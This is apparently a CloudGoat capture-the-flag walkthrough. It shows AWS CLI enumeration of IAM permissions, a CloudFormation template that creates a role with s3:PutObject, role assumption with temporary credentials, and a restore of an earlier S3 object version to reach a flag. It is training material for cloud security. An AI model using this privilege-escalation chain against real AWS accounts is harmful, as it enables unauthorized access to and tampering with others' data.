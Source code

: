 # CloudGoat Walkthrough: s3_version_rollback_via_cfn

1. Verify that the given website URL uses S3 static web hosting.

2. Configure your AWS CLI profile.

```sh
$ aws configure --profile {IAM User}
```

3. Check permissions.

```sh
$ aws sts get-caller-identity --profile {IAM User}
$ aws iam get-user --user-name {} --profile {IAM User}
	-> PermissionBoundary Discovery.
$ aws iam list-user-policies --user-name {} --profile {IAM User}
$ aws iam get-user-policy --user-name {} --policy-name {} --profile {IAM User}
	-> Check S3 query permissions, CloudFormation stack creation permissions, CreateRole, etc.
```

4. S3 object, check version and then try to download.

```sh
$ aws s3 ls s3://{} --profile {IAM User} 
		-> Verify bucket name by reporting website static address.

$ aws s3api list-object-versions \
 --bucket {} \
 --profile {IAM User}

$ aws s3api get-object \
  --bucket {} \
  --key {} \
  --version-id {}\
  ./{outfile} \
  --profile {IAM User}
```

5. After failing to download only Flag.txt with bucket policy, check the contents of previous version `index.html`.

```
$ cat {index.html}
    -> Check the previous version of index.html logic and see if it needs to be restored.
```

6. Check permissions to use Cloudformation after restore fails due to lack of putobject permission required to restore previous version.

```sh
$ aws iam get-policy --policy-arn {Boundary ARN} --profile {IAM User}

  -> In order to create a CreateRole in a Cloudformation policy, you must create a template by inserting a boundary policy.
```
```sh
$ aws iam get-policy-version \
  --policy-arn {Boundary ARN} \
  --version-id {Version Id} \
  --profile {IAM User}

  -> Boundary policy has PutObject permission allow check. PutObject permission can be granted with   CreateRole.
```

7. create a Cloudformation template yaml file. (with RoleName matching the resource in the cloudformation inline policy)

```yaml
AWSTemplateFormatVersion: '2010-09-09'
Resources:
  ExploitRole:
    Type: AWS::IAM::Role
    Properties:
      RoleName: CloudFormationRole 
      AssumeRolePolicyDocument:
        Version: '2012-10-17'
        Statement:
          - Effect: Allow
            Principal:
              AWS: "arn:aws:iam::{identity}:user/{IAM user}"
            Action: sts:AssumeRole
            
      PermissionsBoundary: "arn:aws:iam::{identity}:policy/{Boundary Policy}"
           
      Policies:
        - PolicyName: {Desired policy name}
          PolicyDocument:
            Version: '2012-10-17'
            Statement:
              - Effect: Allow
                Action:
                  - s3:PutObject
                Resource: "*"
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; The RoleName of the policy must match and the PermissionsBoundary entry must be included. Additionally, even if you grant higher permissions due to the permission boundary, only putobject will work.

8. Create CloudFormation Stack.

```sh
$ aws cloudformation create-stack \
  --stack-name {} \
  --template-body file://{yaml file path} \
  --capabilities CAPABILITY_NAMED_IAM \
  --profile {IAM User}
```

9. Role Assume.

```sh
$ aws iam list-roles --profile {IAM User} 
	-> Check the Role arn generated by cloudformation.

$ aws sts assume-role \
  --role-arn arn:aws:iam::{}:role/{} \
  --role-session-name {} \
  --profile {IAM User}
```

10. Configure Assume user temporary credentials. (~/.aws/credentials)

```sh
[Assume]
aws_access_key_id = <AssumedAccessKeyId>
aws_secret_access_key = <AssumedSecretAccessKey>
aws_session_token = <SessionToken>
```

11. Restore a previous version.

```sh
$ aws s3api put-object \
  --bucket {} \
  --key index.html \
  --body ./{} \ 
  --content-type text/html \
  --profile {Assume}
```

12. After reconnecting to the web, restore and check the flag.

```
http://{}.s3-website-<region>.amazonaws.com/
```

## Conclusion

In this scenario, we:
1. **Identifying the vulnerability of the object lock + versioning combination.**
    ->Object locking works for single objects, but it doesn't work when combined with versioning. S3 versioning is the concept of stacking objects rather than overwriting them when PutObject is used.
2. **AWS Privilege Escalation** (privilege escalation) by creating a Cloudformation stack
    → Escalate privileges by linking explicitly denied permissions to permission boundaries.

This walkthrough demonstrates a cloud security vulnerability involving S3 and permission boundaries, and shows how to create a role using a CloudFormation stack.